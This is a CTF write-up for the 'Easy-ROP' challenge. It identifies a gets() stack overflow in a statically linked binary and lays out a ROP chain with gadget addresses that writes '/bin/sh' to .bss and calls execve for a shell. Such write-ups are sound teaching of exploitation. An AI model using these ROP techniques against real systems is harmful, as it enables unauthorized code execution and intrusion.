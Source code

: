 # Easy-ROP

### This is a simple ROP exploit.

```
file easy-rop
easy-rop: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, BuildID[sha1]=78fc05fd7938307a19ef9a1d0514d19126d62727, for GNU/Linux 3.2.0, not stripped
```

So the given binary is statically linked. 

The security protections for this binary are:

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

As we can see NX is enabled. The libc is statically linked and some of the libc functions present in the binary will have the canary present in it, so the checksec shows that the canary is present for the given binary. Decompiling the given binary we can see that :

```

void main(void)

{
  char local_48 [64];
  
  setvbuf((FILE *)stdin,(char *)0x0,2,0);
  setvbuf((FILE *)stdout,(char *)0x0,2,0);
  setvbuf((FILE *)stderr,(char *)0x0,2,0);
  alarm(0x40);
  puts("Welcome to the darkcon pwn!!");
  printf("Let us know your name:");
  gets(local_48);
  return;
}

```
The  ```__stack_chk_fail``` function is not present concluding there is no canary present in the main function.

By decompiling the main it just uses ```gets()``` function so we have a buffer overflow vulnerability. So we can change the **return address** to jump anywhere we want in the binary.


As the given binary is statically linked we will have so many ROPGadgets present in it. we can utilize these ROPgadgets to form a shellcode using ROP.

### So the attack vector is:

- Just try to write ```/bin/sh``` in any writable section (preferably in .bss)
- Then try to use syscall and execute the execve("/bin/sh") to get the shell

I used these ROP gadgets:

```
0x0000000000481e65 : mov qword ptr [rsi], rax ; ret
0x00000000004175eb : pop rax ; ret
0x000000000040191a : pop rdi ; ret
0x000000000040f4be : pop rsi ; ret
0x000000000040181f : pop rdx ; ret
0x00000000004012d3 : syscall
```

- pop rax  **"/bin/sh"**
- pop rsi  **(address of bss)**
- mov qword ptr [rsi], rax **so the starting address of bss contains the /bin/sh**
- pop rax,0x3b **execve syscall**
- pop rdi **bss (pointer to "/bin/sh")**
- pop rsi **0**
- pop rdx **0**
- syscall

Here is the full [Exploit](./exploit.py) 

Enjoy the shell
